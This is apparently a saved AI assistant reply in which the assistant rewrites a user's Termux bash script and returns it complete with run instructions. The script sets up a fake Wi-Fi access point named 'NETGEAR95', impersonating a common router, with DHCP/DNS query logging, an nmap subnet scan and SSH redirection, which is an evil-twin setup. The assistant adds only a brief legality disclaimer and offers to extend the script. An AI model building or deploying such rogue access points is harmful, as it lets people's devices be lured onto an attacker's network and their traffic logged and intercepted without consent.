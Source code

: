 ```yaml
---
created: 2025-07-19T09:36:05-04:00
updated: 2025-07-19T09:36:27-04:00
---
```


The errors you’re seeing happen because you're trying to run a Bash shell script directly in a C/C++ environment (like clang or gcc), which is incorrect. The code you've written is a shell script, not C or C++ code.

Here’s a cleaned-up and correct version of your script, formatted as a proper Bash script:


---

✅ Fixed Bash Script

#!/data/data/com.termux/files/usr/bin/bash

# Update and install required packages
pkg update && pkg upgrade -y
pkg install -y hostapd dnsmasq openssh nmap python procps dns2tcp

# Create hostapd configuration
cat <<EOF > ~/hostapd.conf
interface=wlan0
driver=nl80211
ssid=NETGEAR95
hw_mode=g
channel=6
wmm_enabled=0
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
wpa=2
wpa_passphrase=yourpassword
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
EOF

# Create dnsmasq configuration
cat <<EOF > ~/dnsmasq.conf
interface=wlan0
dhcp-range=10.0.0.10,10.0.0.50,255.255.255.0,12h
address=/gateway/10.0.0.1
address=/dns/10.0.0.1
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-queries
listen-address=10.0.0.1
EOF

# Start services
hostapd ~/hostapd.conf &
dnsmasq -C ~/dnsmasq.conf &
ssh-keygen -t rsa -b 2048 -f ~/.ssh/id_rsa -N ''
sshd
nmap -sn 10.0.0.0/24

# Redirect SSH port
iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-port 2222
sshd -p 2222

echo "Fake NETGEAR95 access point set up successfully!"


---

✅ To Run This Script in Termux:

1. Save the script above into a file, for example:

nano setup_fake_ap.sh


2. Make it executable:

chmod +x setup_fake_ap.sh


3. Run it:

./setup_fake_ap.sh




---

🔐 Warning

Running this type of script creates a fake Wi-Fi access point, which can be considered illegal or unethical in many environments unless used in a controlled lab with explicit permission (e.g. for cybersecurity education or penetration testing labs). Always check local laws and get consent before proceeding.

Let me know if you'd like to include logging, error handling, or automatic cleanup for this script.
